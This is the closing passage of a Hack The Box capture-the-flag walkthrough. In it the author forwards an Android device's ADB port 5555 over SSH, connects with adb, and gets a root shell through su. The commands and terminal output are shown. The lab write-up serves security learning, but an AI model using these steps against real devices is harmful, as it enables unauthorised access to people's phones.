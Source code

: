 
It seems like the phone is also listening on port 5555, a further experience with Android phone, we will know that it is for adb, see link below (https://developer.android.com/studio/command-line/adb?hl=lt)

What we can do now is to get in port 5555 by port-forwarding 

```
ssh -L 5555:127.0.0.1:5555 kristi@10.10.10.247 -p 2222
```

We can now interact with port 5555 of the android phone from our local port 5555; However, we must also install adb connect to get in

```
adb connect localhost:5555
connected to localhost:5555
┌─[root@kali]─[~/htb-UK/results/results/10.10.10.247/scans]
└──╼ #adb shell
error: more than one device/emulator
┌─[✗]─[root@kali]─[~/htb-UK/results/results/10.10.10.247/scans]
└──╼ #adb devices
List of devices attached
emulator-5554	device
localhost:5555	device


adb -s localhost:5555 shell
x86_64:/ $ su                                                                      
:/ # whoami                                                                                                                   
root
```

Viola~ We were able to get in and root dance for an Android machine



## Comments
A rather medium staged machine, with some Android mobile experience needed; Port-forwarding is a good technique to learn regardless












